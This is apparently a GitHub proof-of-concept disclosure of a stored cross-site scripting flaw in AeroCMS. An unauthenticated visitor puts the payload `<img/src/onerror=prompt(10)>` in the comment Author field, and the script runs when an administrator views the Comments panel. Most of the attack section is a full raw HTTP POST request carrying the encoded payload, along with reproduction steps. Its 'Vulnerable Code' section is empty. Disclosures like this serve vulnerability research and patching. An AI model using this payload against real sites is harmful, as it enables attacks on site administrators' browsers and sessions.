 # AeroCMS-Comment-Stored_XSS-POC
* `Description` Don't need register or login account 
## Step to Reproduct
* Click `Read More` -> input payload `<img/src/onerror=prompt(10)>` at `Author` -> click `Submit` button 
# Exploit
* Input payload at `Author` -> click `Submit` button
![image](https://user-images.githubusercontent.com/79050415/157009053-539e0d0f-8de7-449f-9815-2059c15179ab.png)
* When admin login to admin panel and click `Comments` -> The XSS will trigger 
![image](https://user-images.githubusercontent.com/79050415/157009623-8afdecf4-8bfc-48ed-be9c-a298628eeb5f.png)
* Finally, Success !!!!
![image](https://user-images.githubusercontent.com/79050415/157009805-fc9c33bb-7ae9-4229-9051-081c23d72b92.png)
# Vulnerable Code

# POC
```c
POST /AeroCMS/post.php?p_id=36 HTTP/1.1
Host: localhost:8080
Content-Length: 126
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="95", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/AeroCMS/post.php?p_id=36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=loqbt1ibs376hge1s415srq441
Connection: close

comment_author=%3Cimg%2Fsrc%2Fonerror%3Dprompt%2810%29%3E&comment_email=bin%40gmail.com&comment_content=hacked&create_comment=
```
`POC VIDEO` https://drive.google.com/file/d/1GxOyX1JkG0trfdaCLfe06TR6WLIGoUXE/view?usp=sharing
